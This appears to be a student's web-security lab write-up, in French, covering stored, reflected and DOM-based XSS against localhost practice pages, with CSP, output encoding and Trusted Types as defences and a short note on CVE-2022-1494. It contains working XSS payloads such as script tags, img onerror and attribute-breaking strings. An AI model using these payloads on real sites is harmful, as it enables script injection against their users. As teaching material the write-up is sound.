 # TP2

**Question 1 : Perform a store XSS attack to [`guestbook.php`](http://localhost:8080/tp2/ressources/guestbook.php). Defend this with a CSP header.**

**Script : [tp2/ressources/guestbook.php (localhost live)](http://localhost:8080/tp2/ressources/guestbook.php) | [tp2/ressources/guestbook.php (code)](/src/tp2/ressources/guestbook.php)**

**Deux manières de le faire :**

En marquant en message le code suivant :

```html
<script>alert('xss')</script>
```

On inscrit dans `messages.txt` notre XSS.

**Seconde manière : On peut aussi le faire manuellement directement via le fichier PHP qui s'en occupe :**

Il faut rentrer dans le champ input de la page web du code JavaScript à exécuter dans une balise script.  
Le navigateur va contacter un autre script avec la valeur de l'input dans le paramètre "message".

```bash
http://localhost:8080/tp2/ressources/guestbookleavemessage.php?message=<script>alert('xss')</script>
```

Le champ de l'utilisateur va être stocké côté serveur.  
Nous permettant de réaliser une XSS stored. Lorsque l'utilisateur va recharger la page `tp2/guestbook.php`, le contenu du fichier va être récupéré et le code contenu à l'intérieur va être exécuté.

Pour mettre en place le *CSP  header* (Content Security Policy) sur le script PHP. Il faut rajouter le code php suivant au début du script.

```php
header("Content-Security-Policy: script-src 'self'");
```

Maintenant le client va exécuter que les balises script qui ont pour origine celui du serveur, donc localhost.

Résultat :

- [tp2/mycode/guestbook_csp_header.php (localhost live)](http://localhost:8080/tp2/mycode/guestbook_csp_header.php)
- [tp2/mycode/guestbook_csp_header.php (code)](/src/tp2/mycode/guestbook_csp_header.php)

---

**Question 2 : [`xssme.php`](http://localhost:8080/tp2/ressources/xssme.php) perform all the attacks and generate protectedxssme.php to defend.**  
**Do htmlentities or htmlspecialchars work in every context of [`xssme.php`](http://localhost:8080/tp2/ressources/xssme.php)? If not, explain and correct.**

**Script : [tp2/ressources/xssme.php (localhost live)](http://localhost:8080/tp2/ressources/xssme.php) | [tp2/ressources/xssme.php (code)](/src/tp2/ressources/xssme.php)**

Paramètre : htmlcontext

```bash
htmlcontext=<script>alert('xss');</script>
htmlcontext=%3Cscript%3Ealert(%22xss%22)%3C/script%3E
```

<http://localhost:8080/tp2/ressources/xssme.php?htmlcontext=%3Cscript%3Ealert(%22xss%22)%3C/script%3E>

Paramètre : attributecontext1

```bash
attributecontext1='' onerror=alert('xss')
attributecontext1=%27%27%20onerror=alert(%22xss%22)
```

<http://localhost:8080/tp2/ressources/xssme.php?attributecontext1=%27%27%20onerror=alert(%22xss%22)>

Paramètre : attributecontext2

```bash
attributecontext2="" onerror=alert('xss')
attributecontext2=%22%22%20onerror=alert(%22xss%22)
```

<http://localhost:8080/tp2/ressources/xssme.php?attributecontext2=%22%22%20onerror=alert(%22xss%22)>

Paramètre : attributecontext3

```bash
attributecontext3='' onerror=alert('xss')
attributecontext3=%27%27%20onerror=alert(%27xss%27)
```

<http://localhost:8080/tp2/ressources/xssme.php?attributecontext3=%27%27%20onerror=alert(%27xss%27)>

Paramètre : scriptcontext

```bash
scriptcontext=alert('xss')
scriptcontext=alert(%22xss%22)
```

<http://localhost:8080/tp2/ressources/xssme.php?scriptcontext=alert(%22xss%22)>

Paramètre : attributecontextonerror

```bash
attributecontextonerror=alert('xss')
attributecontextonerror=alert(%22xss%22)
```

<http://localhost:8080/tp2/ressources/xssme.php?attributecontextonerror=alert(%22xss%22)>

**Défenses :**

Il faut mettre en place le CSP sur le script-src avec pour valeur self.

```php
header("Content-Security-Policy: script-src 'self'");
```

Un autre moyen est d'encoder les inputs utilisateurs avec des fonctions d'encoding comme htmlentities et htmlspecialchars en php.

Résultat :

- [tp2/mycode/protectedxssme.php (localhost live)](http://localhost:8080/tp2/mycode/protectedxssme.php)
- [tp2/mycode/protectedxssme.php (code)](/src/tp2/mycode/protectedxssme.php)

**Question 3 : Write code to defend and attack for each of the contexts described for XSS and DOM-XSS in the OWASP cheatsheets.**

Exploitation XSS sur les différents scripts :

**Script : [tp2/ressources/domxss4.html (localhost live)](http://localhost:8080/tp2/ressources/domxss4.html) | [tp2/ressources/domxss4.html (code)](/src/tp2/ressources/domxss4.html)**

```bash
x=<script>alert('xss');</script>
x=%3Cscript%3Ealert(%22xss%22)%3C/script%3E
```

<http://localhost:8080/tp2/ressources/domxss4.html?x=%3Cscript%3Ealert(%22xss%22)%3C/script%3E>

**Script : [tp2/ressources/domxss5.html (localhost live)](http://localhost:8080/tp2/ressources/domxss5.html) | [tp2/ressources/domxss5.html (code)](/src/tp2/ressources/domxss5.html)**

Mettre une balise script dans l'input ne fonctionne pas, car dans la spécification de HTML :  
"a `<script>` tag inserted with `innerHTML` should not executed."  
(Source : [Element: innerHTML property - Web APIs | MDN (mozilla.org)](https://developer.mozilla.org/en-US/docs/Web/API/Element/innerHTML))

Le moyen est donc d'injecter du code javascript, mais sans utiliser une balise script.  
L'une des manières de faire est d'utiliser une balise img.

```bash
<img src='' onerror=alert('xss');>
```

**Script : [tp2/ressources/domxss6.html (localhost live)](http://localhost:8080/tp2/ressources/domxss6.html) | [tp2/ressources/domxss6.html (code)](/src/tp2/ressources/domxss6.html)**

`window.location.hash` permet de récupérer les fragments qui sont spécifiés dans l'url par l'utilisateur c'est-à-dire, l'ensemble des paramètres spécifiés après le caractère `#`.

```txt
http://localhost:8080/tp2/ressources/domxss6.html#myhash'onmouseover='alert(1)
```

Note : on ne peut pas encoder les caractères `"` et `'` avec des `%22` et `%27` car le navigateur va les décoder et les interpréter comme les trois caractères et pas leur valeur encodée.

Le code javascript s'exécute lorsque l'utilisateur clique sur la balise input.

**Différence entre XSS et DOMXSS :**

- stored reflexcted, passe dans le serveur (backend) puis reviens vers l'utilisateur (frontend) : il y a donc la possiblité de voir l'attaque dans le backend
- domxss, ne va que dans le fronted: le serveur (backend) ne verra pas l'attaque

**Défenses contre XSS :**

- Utiliser le mécanisme CSP
- Encoder les inputs utilisateurs en caractères HTML

**Défenses contre XSS-DOM :**

- Utiliser le mécanisme de CSP
- Encoder les inputs utilisateurs en caractères HTML
- Utiliser l'API Trusted Types ([Trusted Types API - Web APIs | MDN (mozilla.org)](https://developer.mozilla.org/en-US/docs/Web/API/Trusted_Types_API))
- Utiliser le mode strict de javascript (`"use strict";` en première ligne de chaque fichier JavaScript ([Strict mode - JavaScript | MDN (mozilla.org)](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Strict_mode))
- Ne pas utiliser `innerHTML` sur des inputs non vérifiés et utilisé plutôt à la place innerText.

**Question 4 : Investigate how to use Trusted types for DOM-XSS and the new attack.**

[Untrusted types: Researcher demos trick to beat Trusted Types protection in Google Chrome | The Daily Swig](https://portswigger.net/daily-swig/untrusted-types-researcher-demos-trick-to-beat-trusted-types-protection-in-google-chrome)

**Fonctionnement de la Trusted types API :**

La trusted types API permet de forcer la validation des chaines de caractères employées pour l'utilisation des fonctions constituant des "injections sinks".  
Les injections sinks sont des fonctions qui insèrent du HTML dans le document, des fonctions qui créent un nouveau document de même origine avec un balisage contrôlé par l'appelant, des fonctions qui exécutent du code et des setteurs pour les attributs d'éléments qui acceptent une URL pour charger ou exécuter du code.

Si l'utilisateur utilise une string au lieu d'un trusted type fourni par une fonction de validation définie dans un objet TrustedTypePolicyFactory, l'utilisateur va recevoir une "TypeError".

**L'attaque : CVE-2022-1494.**

Il n'y a pas beaucoup d'information sur la vulnérabilité, à l'exception que le problème vient "d'une validation insuffisante des données dans Trusted Types dans Google Chrome avant la version 101.0.4951.41 permettait à un attaquant distant de contourner les trusted types policies via une page HTML élaborée."

Source : [NVD - CVE-2022-1494 (nist.gov)](https://nvd.nist.gov/vuln/detail/CVE-2022-1494)
